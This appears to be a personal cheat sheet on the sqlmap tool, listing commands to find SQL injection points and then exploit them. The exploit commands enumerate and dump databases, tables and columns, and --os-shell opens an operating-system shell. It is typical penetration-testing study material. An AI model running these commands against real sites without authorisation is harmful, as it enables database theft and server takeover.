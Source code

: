 
### General Notes

> Automated tool to test for [[SQL Injections]].
> Gets information about the Database and system being used.

> Data is saved in `/usr/share/sqlmap/output/sqlmap.test` for each url used.
> Can use `--flush-session` to reset this data.

---

### Finding an Injection

```
sqlmap -u <'url'> -p <injection point> [options]
sqlmap -u 'http://<site>?id=123' -p id --technique=U		//test id parameter using UNION (GET)
sqlmap -u <'url'> --data=<'post string'> -p <parameter> [options]	//using (POST)
sqlmap -u <'url'> -p <parameter> --cookie <"">
```

---

### Exploiting an Injection

```
--banner: gets the banner of the database
--technique: what to use => U: UNION, B: BOOLEAN
-v3: what commands are used, GET THE PAYLOAD TO USE IN THE WEBBROWSER
--users: gets the current user in the db
--dbs: gets the databases
-D <db-name> --tables: lists the tables in the database db-name
-D <db-name> -T <table-name> --columns: lists the columns in the table 
-D <db-name> -T <table-name> -C column-name,column-name  --dump: gets the info of the columns
-r <filename.req>: saved file from burp proxy
--os-shell: to get a reverse shell. Use php and brute force search.
```

---

### Usefull Commands

> To avoid asking for user input and work with defaults
```
--batch
```
